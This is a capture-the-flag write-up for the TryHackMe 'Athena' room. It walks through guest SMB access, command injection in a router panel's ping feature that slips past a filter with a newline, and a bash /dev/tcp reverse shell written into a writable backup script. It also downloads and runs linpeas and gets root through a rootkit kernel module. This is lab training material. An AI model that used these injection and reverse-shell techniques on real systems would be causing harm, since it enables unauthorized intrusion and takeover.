 ```yaml
---
title: Athena
tags:
  - thm
  - medium
---
```


#### Author: AMD

![athena](../../images/thm/athena/athena.png)

This is a writeup for <b>Athena</b> room.

My target IP: 10.10.231.238

-----------------------------------------------------------------------------------
<b>NMAP</b>

Lets scan out target.

![nmap](../../images/thm/athena/nmap.png)

-----------------------------------------------------------------------------------
<b>RESEARCH</b>

Let's see what unusual ports used for.

![research](../../images/thm/athena/research.png)

-----------------------------------------------------------------------------------
<b>SMB CLIENT CONNECTION</b>

Let's list SMB shares that are accessible as guest. (-N)

![smbclient_list](../../images/thm/athena/smbclient_list.png)

![smbclient_ipc](../../images/thm/athena/smbclient_ipc.png)

![smbclient_public](../../images/thm/athena/smbclient_public.png)

We are in.

-----------------------------------------------------------------------------------
<b>SMB CLIENT</b>

Let's look around.

![smbclient_ls](../../images/thm/athena/smbclient_ls.png)

Run "vim msg_for_administrator.txt"

![msg_for_administrator](../../images/thm/athena/msg_for_administrator.png)

-----------------------------------------------------------------------------------
<b>ROUTER PANEL</b>

![router_panel](../../images/thm/athena/router_panel.png)

Let's try whoami.

![whoami](../../images/thm/athena/whoami.png)

![whoami_result](../../images/thm/athena/whoami_result.png)

-----------------------------------------------------------------------------------
<b>INJECTION</b>

Input "dummy", catch the request with Burp Suite and send to repeater.

All attempts ends up with "Attempt hacking!" or "Failed to execute ping." if they contain characters like ';' '|' '&' etc. But '\n' (%0a) works

![id](../../images/thm/athena/id.png)

![passwd](../../images/thm/athena/passwd.png)

-----------------------------------------------------------------------------------
<b>REVERSE SHELL</b>

run "nc -lvnp 4444"

![reverse_shell_burp](../../images/thm/athena/reverse_shell_burp.png)

![conn_received](../../images/thm/athena/conn_received.png)

We need to connect user athena.

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 1</b>

run "wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" to get linpeas.sh on your pc.

run "python3 -m http.server 8080" on your pc to host it.  (Close Burp or change port)

run "wget http://YOUR-IP:8080/linpeas.sh -O /tmp/linpeas.sh"

run "chmod +x /tmp/linpeas.sh" to make it executable

run "/tmp/linpeas.sh"

![backup_sh](../../images/thm/athena/backup_sh.png)

![backup_sh_perms](../../images/thm/athena/backup_sh_perms.png)

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 2</b>

run "echo 'bash -i >& /dev/tcp/YOUR-IP/9001 0>&1' > /usr/share/backup/backup.sh"

run "nc -lvnp 9001" on your pc,

![user_athena](../../images/thm/athena/user_athena.png)

-----------------------------------------------------------------------------------
<b>GET USER FLAG</b>

![user_flag](../../images/thm/athena/user_flag.png)

-----------------------------------------------------------------------------------
<b>USER athena PERMISSION</b>

![user_athena_perm](../../images/thm/athena/user_athena_perm.png)

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 3</b>

![venom_ko_perms](../../images/thm/athena/venom_ko_perms.png)

It is readable. Lets get it

![venom_web_server](../../images/thm/athena/venom_web_server.png)

![get_venom](../../images/thm/athena/get_venom.png)

-----------------------------------------------------------------------------------
<b>INSPECT venom.ko</b>

Fire up Ghidra and open venom.ko

Under functions find give_root function.

![give_root](../../images/thm/athena/give_root.png)

Other weird funciton is hacked_kill.

![hacked_kill](../../images/thm/athena/hacked_kill.png)

![root_call](../../images/thm/athena/root_call.png)

If we kill the process 57 (0x39) we can become root.
-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 4</b>

run "sudo /usr/sbin/insmod /mnt/.../secret/venom.ko"

run "kill -57 0"

run "id"

-----------------------------------------------------------------------------------
<b>GET ROOT FLAG</b>

run "cd /root"

run "cat root.txt"

![root_flag](../../images/thm/athena/root_flag.png)
